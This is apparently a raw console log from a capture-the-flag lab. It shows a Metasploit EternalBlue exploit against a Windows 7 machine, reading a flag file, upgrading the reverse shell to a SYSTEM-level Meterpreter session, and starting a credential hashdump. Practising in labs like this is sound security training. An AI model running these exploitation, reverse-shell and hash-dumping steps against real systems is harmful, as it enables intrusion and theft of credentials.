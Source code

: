 ```console
 Directory of C:\Users\Jon\Documents

07/14/2021  08:39 PM                15 flag.txt
               1 File(s)             15 bytes

C:\Windows\system32>cd C:\Users\Jon\Documents
cd C:\Users\Jon\Documents

C:\Users\Jon\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\Users\Jon\Documents

07/14/2021  08:39 PM    <DIR>          .
07/14/2021  08:39 PM    <DIR>          ..
07/14/2021  08:39 PM                15 flag.txt
               1 File(s)             15 bytes
               2 Dir(s)  39,937,695,744 bytes free

C:\Users\Jon\Documents>type flag.txt
type flag.txt
THM-5455554845

C:\Windows\system32>^Z
Background session 2? [y/N]  y
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type               Information                               Connection
  --  ----  ----               -----------                               ----------
  2         shell x64/windows  Shell Banner: Microsoft Windows [Version  10.13.17.49:4444 -> 10.10.6.163:49187 (10
                                6.1.7601] -----                          .10.6.163)

msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -u 2
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [2]

[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.13.17.49:4433 
[*] Sending stage (200774 bytes) to 10.10.6.163
msf6 post(windows/gather/hashdump) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  2         shell x64/windows        Shell Banner: Microsoft Windows [Vers  10.13.17.49:4444 -> 10.10.6.163:49187
                                     ion 6.1.7601] -----                    (10.10.6.163)
  4         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC           10.13.17.49:4433 -> 10.10.6.163:49198
                                                                            (10.10.6.163)

msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > hashdump
```
